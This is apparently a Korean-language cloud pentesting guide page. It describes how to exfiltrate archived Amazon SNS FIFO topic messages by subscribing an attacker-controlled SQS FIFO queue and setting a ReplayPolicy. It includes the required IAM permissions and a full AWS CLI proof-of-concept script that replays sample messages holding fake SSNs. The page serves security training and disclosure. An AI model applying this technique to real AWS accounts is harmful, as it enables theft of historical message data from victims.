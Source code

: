 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

{{#include ../../../../banners/hacktricks-training.md}}

Amazon SNS FIFO topic의 메시지 아카이빙을 악용하여 subscription `ReplayPolicy`를 설정함으로써 이전에 게시된 메시지들을 재생(replay)하고 attacker가 제어하는 SQS FIFO queue로 exfiltrate할 수 있음.

- 서비스: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- 요구사항: Topic에 ArchivePolicy(메시지 아카이빙)가 활성화되어 있어야 함. Attacker가 topic에 Subscribe하고 자신의 subscription에 속성(attributes)을 설정할 수 있어야 함. Attacker는 SQS FIFO queue를 제어하고 topic이 메시지를 전송하도록 허용해야 함.
- 영향: 이전에 게시된(구현된) 히스토리 메시지들이 attacker 엔드포인트로 전달될 수 있음. 재생된 전달은 SNS envelope에 `Replayed=true`로 표시됨.

## 전제조건
- 아카이빙이 활성화된 SNS FIFO topic: `ArchivePolicy` (예: `{ "MessageRetentionPeriod": "2" }` 는 2일).
- Attacker는 다음 권한을 가지고 있어야 함:
  - 대상 topic에 대한 `sns:Subscribe`.
  - 생성된 subscription에 대한 `sns:SetSubscriptionAttributes`.
- Attacker는 SQS FIFO queue를 보유하고 있으며 topic ARN으로부터 `sns:SendMessage`를 허용하는 queue policy를 연결할 수 있어야 함.

## 최소 IAM 권한
- topic에 대해: `sns:Subscribe`.
- subscription에 대해: `sns:SetSubscriptionAttributes`.
- queue에 대해: 정책을 위한 `sqs:SetQueueAttributes` 및 topic ARN로부터 `sns:SendMessage`를 허용하는 queue policy.

## 공격: 아카이브된 메시지를 attacker SQS FIFO로 replay
Attacker는 자신의 SQS FIFO queue를 피해자 SNS FIFO topic에 구독(Subscribe)한 다음, `ReplayPolicy`를 보존 기간 내 과거 타임스탬프로 설정한다. SNS는 즉시 새로운 subscription에 일치하는 아카이브된 메시지들을 재생하여 전달하며, 이를 `Replayed=true`로 표시한다.

참고:
- `ReplayPolicy`에 사용되는 타임스탬프는 topic의 `BeginningArchiveTime` 이상이어야 함. 더 이전이면 API는 `Invalid StartingPoint value` 오류를 반환함.
- SNS FIFO에 대한 `Publish` 시에는 `MessageGroupId`를 지정해야 하며(그리고 dedup ID를 지정하거나 `ContentBasedDeduplication`을 활성화해야 함).

<details>
<summary>End-to-end CLI POC (us-east-1)</summary>
```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
--cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
--query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
--message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
--message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
--attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
--attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
'QueueUrl': os.environ['Q_URL'],
'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
--protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
--attribute-name ReplayPolicy \
--attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
--max-number-of-messages 10 --wait-time-seconds 10 \
--message-attribute-names All --attribute-names All
```
</details>

## 영향
**잠재적 영향**: 아카이빙이 활성화된 SNS FIFO 토픽에 subscribe할 수 있고 자신의 subscription에 `ReplayPolicy`를 설정할 수 있는 공격자는 이 구독이 생성된 이후에 전송된 메시지뿐만 아니라 해당 토픽에 게시된 과거 메시지를 즉시 replay하고 exfiltrate할 수 있습니다. 전달된 메시지는 SNS envelope에 `Replayed=true` 플래그를 포함합니다.

{{#include ../../../../banners/hacktricks-training.md}}
